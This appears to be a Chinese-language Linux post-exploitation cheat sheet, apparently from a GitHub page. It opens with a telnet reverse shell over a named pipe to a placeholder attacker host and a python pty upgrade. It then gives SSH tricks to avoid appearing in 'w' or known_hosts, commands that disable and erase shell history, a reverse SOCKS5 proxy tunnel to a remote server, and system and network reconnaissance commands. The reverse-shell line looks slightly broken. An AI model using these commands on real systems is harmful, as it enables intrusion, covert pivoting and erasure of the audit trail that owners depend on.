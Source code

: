     rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

    python -c 'import pty; pty.spawn("/bin/sh")'

###About SSH

w的时候看不到用户

    ssh -T root@8.8.8.8 bin/sh -i

远程登录时防止被记录到knowhosts文件

    ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash -i

远程登录SSH后第一件事

    unset HISTFILE;export HISTFILE=;export HISTFILE=/dev/null;export HISTSIZE=0;export HISTFILESIZE=0;export HISTIGNORE=*;export HISTCONTROL=ignorespace

退出SSH要做的事情
    
    rm ~/.bash_history
    history -c

SSH开启socks5代理

在本地 8080 端口开 socks5 代理

    ssh -fND 127.0.0.1:8080 user@127.0.0.1

把 socks5 代理弹到 103.224.999.999 的 2333 端口

    ssh -fNR 2333:127.0.0.1:8080 forward@103.224.999.999

多一层中转更safe :)

##About Information

####操作系统

	cat /etc/issue
	cat /etc/*-release
	cat /etc/lsb-release
	cat /etc/redhat-release

####内核版本

    cat /proc/version   
	uname -a
	uname -mrs 
	rpm -q kernel 
	dmesg | grep Linux
	ls /boot | grep vmlinuz

####网络相关

    /sbin/ifconfig -a
    cat /etc/network/interfaces
    cd /etc/sysconfig/network-scripts/
    ls
    netstat -ant
    arp -e
	route
    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
